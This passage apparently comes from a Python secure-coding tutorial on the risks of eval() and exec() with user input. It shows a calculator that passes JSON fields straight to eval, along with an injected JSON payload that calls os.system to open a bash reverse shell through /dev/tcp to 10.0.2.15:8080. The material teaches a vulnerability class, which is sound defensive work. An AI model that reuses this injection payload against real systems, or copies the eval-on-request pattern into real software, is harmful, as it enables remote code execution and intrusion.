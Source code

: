 ```python
def addition(x, y):
  return eval("%s + %s" % (x, y))

result = addition(2, 4)
print(result)
```

This is a very simple calculator, which gives you the sum of two numbers. If you execute the code, then you will have `6` as a result.

Now let's turn this calculator to an application that uses JSON to pass user input:

```python
def addition(x, y):
  return eval("%s + %s" % (x, y))

result = addition(request.json['x'], request.json['y'])
print("Our result is %d." % result)
```

If we pass `{"x":"2", "y":"4"}` as our previous code, then the result will be `6` of course. But if we provide something else like:

```python
{"x":"__import__('os').system('bash -i >& /dev/tcp/10.0.2.15/8080 0>&1')#", "y":"4"}
```

This malicious code will force our calculator to call `os.system` then spawn a [reverse shell](https://www.sans.edu/student-files/presentations/LVReverseShell.pdf) to the IP "10.0.2.15" on PORT "8080".

> 10.0.2.15 is a [private network address](https://whatismyipaddress.com/private-ip) and it is not accessible from the internet.

#### Exec() <a name="function2"></a>

This function is similar to `eval()` which executes a string or a code object:

```python
code = 'x = 2\ny=4\nprint("result =", x+y)'
exec(code)
```

The output will be `6`. And you can exploit it in the same way as we did before.

Now if you want to use those functions, you have to check which methods and variables the user is allowed to use by:

```python
exec('print(dir())')
```

The output is:

```bash
['In', 'Out', '_', '__', '___', '__builtin__', '__builtins__', '__doc__', '__loader__', '__name__', '__package__', '__spec__', '_dh', '_i', '_i1', '_i2', '_i3', '_i4', '_i5', '_i6', '_i7', '_i8', '_ih', '_ii', '_iii', '_oh', 'addition', 'exit', 'get_ipython', 'quit', 'result']
```
